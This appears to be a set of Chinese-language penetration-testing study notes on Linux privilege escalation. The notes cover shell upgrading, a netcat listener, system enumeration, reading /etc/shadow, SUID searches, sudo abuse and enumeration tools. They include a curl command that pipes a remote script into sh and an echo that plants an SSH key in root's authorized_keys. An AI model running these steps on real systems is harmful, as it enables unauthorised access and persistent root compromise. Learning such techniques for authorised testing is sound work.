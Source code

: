 ### 运行linpeas脚本以枚举远程服务器
    ./linpeas.sh

### 切换完整bash
```
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL + Z
stty raw -echo
fg
export TERM=xterm-color
```

``rlwrap nc -lvnp <port>``

## 手工枚举
```
id:显示当前⽤户的 UID（⽤户 ID）、GID（组 ID）以及所属的其他组的信息
who:显示当前登录的⽤户及相关信息，如登录时间、终端等
whoami:显示当前⽤户的⽤户名
w:提供关于当前登录⽤户的详细信息，包括他们在做什么以及系统的负载信息
last:显示系统最近的登录记录
```

```
uname -a:为我们提供关于系统使⽤的内核的附加详细信息。在寻找可能导致提权的任何潜在内核漏洞时，这将⾮常有⽤
lsb_release -a：这个命令⽤于显示Linux标准基础（LSB）的发⾏信息。 -a 选项表示显示所有
可⽤信息。它将显示诸如发⾏编号、发⾏名称、发⾏描述等信息
cat /proc/version ：这个命令⽤于显示内核版本和编译信息。 /proc/version ⽂件包含了内核
版本、编译器版本和其他相关信息。要查看是否安装了GCC就可以⽤这条命令
cat /etc/issue：这个命令⽤于查看系统的发⾏版本信息。 /etc/issue ⽂件包含了操作系统发⾏版的名称和版本
cat /etc/*-release：这个命令⽤于查看系统发⾏版的详细信息。它会搜索 /etc/ ⽬录下所有以
-release 结尾的⽂件，并显示它们的内容。这些⽂件通常包含操作系统的发⾏名称、版本、代号等信息
```

```
ip a:旧版命令ifconfig,这些命令为我们提供有关⽹卡、⽹络配置的信息。多张⽹卡配合路由信息可以发现内⽹⽹段
ip route：⽤于查询路由表，route是过时的命令
ip neigh：⽤于查询邻居表
arp -a：则⽤于显示ARP缓存，有些⼈⽤它作内⽹主机发现
```

```
hostname:查看机器主机名，新版内核linux可以用hostnamectl
```

```
getcap -r / 2>/dev/null:关于Linux capabilities ，它为进程提供了⼀部分可⽤的 root 权限
⼦集。有效地将 root 权限划分成较⼩且独特的单元。然后，可以独⽴地将这些单元授予进程。这样，权限集合就会减少，降低了被利⽤的⻛险
```

```
ls -liah:列出详细隐藏信息
history:历史记录
```

```
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab:自动任务
echo $PATH
env:环境变量
ps -ef:查看进程
ps axjf ：查看进程树
```

```
netstat -a ：显示所有正在监听的端⼝和已建⽴的连接。
netstat -at 或 netstat -au 也可⽤于分别列出TCP或UDP协议。
netstat -l ：列出处于“监听”模式的端⼝。这些端⼝是打开的，并准备接受传⼊的连接。
可以将其与“t”选项⼀起使⽤，仅列出使⽤TCP协议监听的端⼝
netstat -s ：按协议列出⽹络使⽤统计数据（如下所示）也可以与 -t 或 -u 选项⼀起使⽤以限制
输出到特定协议
netstat -tp ：列出服务名称和PID信息的连接。
netstat -i ：显示接⼝统计信息。我们在下⾯看到“eth0”和“tun0”⽐“tun1”更活跃
```

```
find / -perm -u=s -type f 2>/dev/null ：查找设置了SUID位的⽂件，这使我们可以以⽐当前⽤
户更⾼的特权级别运⾏⽂件
```

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux
screen 2>/dev/nul
```
![[Pasted image 20250504164902.png]]

```
cat /etc/fstab:检测未挂载的⽂件系统
```


## 自动化枚举
### LinPEAS

全称为Linux Privilege Escalation Awesome Script，是⼀个⽤来搜索类unix主机上可能
的提权路径的⾃动化脚本。
Github:https://github.com/peass-ng/PEASS-ng
```
curl -L https://github.com/carlospolop/PEASSng/releases/latest/download/linpeas.sh | sh
```

### LinEnum
⼀个流⾏的 Linux 本地枚举脚本，⽤于收集有关系统的各种信息，识别不安全的配置，
提取可⽤于提升权限的漏洞信息
Github:https://github.com/rebootuser/LinEnum

### linux-smart-enumeration (lse)
这是⼀个具有模块化功能的 Linux 本地枚举脚本它可在不同的等级上运⾏以获取不同详细程度的信息
Github:https://github.com/diego-treitos/linux-smart-enumeration

### linux-exploit-suggester
该⼯具主要⽤于识别 Linux 系统中可能存在的可利⽤的漏洞，
以帮助⽤户提升权限。
Github:https://github.com/The-Z-Labs/linux-exploit-suggester

### Linuxprivchecker
⼀个⽤于检查 Linux 系统潜在安全问题的 Python 脚本，
包括⽂件权限、系统服务和 SUID ⼆进制⽂件等。 
Github:https://github.com/sleventyeleven/linuxprivchecker

### unix-privesc-check
这个脚本主要⽤于识别 类UNIX 系统中可能的权限升级路径，
通过检查⽂件权限、系统配置等⽅⾯的问题
Github:https://github.com/pentestmonkey/unix-privesc-check


## sudo
### 列出可用sudo权限
    sudo -l
### 用sudo运行命令
    sudo -u Enil /bin/echo Hello World!
### 切换到root用户（如果我们有访问sudo su的权限）
    sudo su -

### 创建新的SSH密钥
    ssh-keygen -f key
### 将生成的公钥添加到用户
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
### 使用生成的私钥SSH连接到服务器
    ssh root@10.10.10.10 -i key

### 枚举脚本
	PEASS

### 易受攻击的软件
#### linux
	dpkg -l
#### windows
	查看C:\Program Files
